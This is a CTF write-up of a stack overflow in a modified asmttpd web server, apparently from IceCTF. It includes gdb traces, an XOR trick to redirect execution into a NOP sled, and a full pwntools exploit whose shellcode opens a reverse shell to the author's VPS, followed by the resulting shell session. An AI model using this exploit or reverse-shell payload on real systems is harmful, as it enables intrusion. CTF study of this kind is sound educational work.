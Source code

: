 ### Solved by superkojiman

This one pwnable is a webserver called asmhttpd, and carries the most points for all the pwnables. The binary has no NX or canary, and we're informed that the server it's running on has ASLR disabled. I actually found the source code for this on [GitHub](https://github.com/nemasu/asmttpd), but I believe this was modified to make it vulnerable.

I found that by passing 9000 bytes, I could actually overwrite r13 at offset 1000, which was used in the following instructions:

```
   0x40103c <worker_thread_continue+44>:        call   0x400de4 <hmac>
   0x401041 <worker_thread_continue+49>:        xor    r13,rax
   0x401044 <worker_thread_continue+52>:        jmp    r13
```

That seemed promising! One problem though was that it kept crashing at the hmacxorloop() called in hmac() because of this:

```
=> 0x400e07 <hmacxorloop>:      xor    rbx,QWORD PTR [r12+rax*1]
```

r12 was at offset 1016 and was being overwritten with my junk payload, so I set this to a valid address. Since ASLR was disabled, I picked 0x00007ffff7fd2000, which is the start of the thread's stack:

```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00402000         r-xp      /root/work/asmttpd_9f3927f2efa1978b45211a93afc9920bd03c425e90abcda268be41d96e6862fa
0x00601000         0x00602000         rwxp      /root/work/asmttpd_9f3927f2efa1978b45211a93afc9920bd03c425e90abcda268be41d96e6862fa
0x00007ffff7fd2000 0x00007ffff7ffb000 rwxp      [stack:17206]
0x00007ffff7ffb000 0x00007ffff7ffd000 r--p      [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 r-xp      [vdso]
0x00007ffffffde000 0x00007ffffffff000 rwxp      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```

This satisfied hmacxorloop()'s xor instruction, and by the time the hmac() function returned, I could now deal with the following:

```
   0x40103c <worker_thread_continue+44>:        call   0x400de4 <hmac>
=> 0x401041 <worker_thread_continue+49>:        xor    r13,rax
   0x401044 <worker_thread_continue+52>:        jmp    r13
```

The problem here was that r13 would get xor'd with whatever was in rax. In this case, rax was set to 0xa7a9904289ef6381:

```
gdb-peda$ p $rax
$1 = 0xa7a9904289ef6381
```

Therefore r13 xor 0xa7a9904289ef6381 should return the location of my payload. In this case, my payload of 9000 NOPs was located in the thread's stack:

```
gdb-peda$ find 0x9090909090
Searching for '0x9090909090' in: None ranges
Found 182 results, display max 182 items:
[stack:17206] : 0x7ffff7ff6bf8 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6bfd --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c02 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c07 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c0c --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c11 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c16 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c1b --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c20 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c25 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c2a --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c2f --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c34 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c39 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c3e --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c43 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c48 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c4d --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c52 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c57 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c5c --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c61 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c66 --> 0x9090909090909090
[stack:17206] : 0x7ffff7ff6c6b --> 0x9090909090909090
--More--(25/183)
```

I picked 0x7ffff7ff6c08 to jump to. Due to xor's property: 

```
0x7ffff7ff6c08 ^ 0xa7a9904289ef6381 = 0xa7a9efbd7e100f89
```

therefore

```
0xa7a9904289ef6381 ^ 0xa7a9efbd7e100f89 = 0x7ffff7ff6c08
```

So by setting r13 to 0xa7a9efbd7e100f89, it would become 0x7ffff7ff6c08 after it was xor'd with rax. After that, the jmp r13 would go straight to my payload and execute it. 

```
 [----------------------------------registers-----------------------------------]
RAX: 0xa7a9904289ef6381
RBX: 0x0
RCX: 0x400c6c (<sys_clone+46>:  cmp    rax,0x0)
RDX: 0x2000 ('')
RSI: 0x7ffff7ff6bf8 --> 0x9090909090909090
RDI: 0x7ffff7fd2000 --> 0x0
RBP: 0x7ffff7ff7000 ("caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaac"...)
RSP: 0x7ffff7ff6bf0 --> 0x2000 ('')
RIP: 0x7ffff7ff6c08 --> 0x9090909090909090
R8 : 0x0
R9 : 0x0
R10: 0x0
R11: 0x246
R12: 0x7ffff7fd2000 --> 0x0
R13: 0x7ffff7ff6c08 --> 0x9090909090909090
R14: 0x400fda (<worker_thread>: mov    rbp,rsp)
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7ff6c05:      nop
   0x7ffff7ff6c06:      nop
   0x7ffff7ff6c07:      nop
=> 0x7ffff7ff6c08:      nop
   0x7ffff7ff6c09:      nop
   0x7ffff7ff6c0a:      nop
   0x7ffff7ff6c0b:      nop
   0x7ffff7ff6c0c:      nop
[------------------------------------stack-------------------------------------]
0000| 0x7ffff7ff6bf0 --> 0x2000 ('')
0008| 0x7ffff7ff6bf8 --> 0x9090909090909090
0016| 0x7ffff7ff6c00 --> 0x9090909090909090
0024| 0x7ffff7ff6c08 --> 0x9090909090909090
0032| 0x7ffff7ff6c10 --> 0x9090909090909090
0040| 0x7ffff7ff6c18 --> 0x9090909090909090
0048| 0x7ffff7ff6c20 --> 0x9090909090909090
0056| 0x7ffff7ff6c28 --> 0x9090909090909090
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00007ffff7ff6c08 in ?? ()
gdb-peda$
```

Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
context(arch="amd64", os="linux")

r = remote("slick.vuln.icec.tf", 6600)

buf = ""

# shellcode stored around 0x7ffff7ff6c08
buf += "\x90"*900                   # junk
buf += asm(shellcraft.linux.connect("my.vps.ip.addr", 9999))    # connect to vps
buf += asm(shellcraft.linux.dupsh())                            # reverse shell
buf += "\xcc"*(1000-len(buf))       # junk

buf += p64(0xa7a9efbd7e100f89)      # turns to 0x7ffff7ff6c08 after rax ^ r13
buf += "a"*8                        # junk
buf += p64(0x00007ffff7fd2000)      # set r12 in hmacxorloop()
buf += cyclic( 9000-len(buf) )      # junk
buf += "\r\n\r\n"

r.send(buf)
```

The exploit establishes a reverse shell to my VPS. One thing I found was that the exploit would work maybe 1 out of 5 tries. I'm not sure why, but the odds weren't too bad so I stuck with it. 

Using two terminals, I setup a necat listener on my VPS to wait for connections on port 9999. Then I ran my exploit:

```
$ ./reverse.py
[+] Opening connection to slick.vuln.icec.tf on port 6600: Done
[*] Closed connection to slick.vuln.icec.tf port 6600
```

On my VPS, I got the connection:

```
koji@vps:~$ ncat -lvp 9999
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 104.154.248.13.
Ncat: Connection from 104.154.248.13:46930.
id
uid=998(ctf) gid=998(ctf) groups=998(ctf)
uname -a
Linux 282e4fc6a2c0 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02) x86_64 GNU/Linux
ls
asmttpd
flag.txt
web_root
cat flag.txt
IceCTF{r0p+z3-FTW}
```

This was actually quite easy, no ROP required. I suspect I may have solved it in an unintended way. 
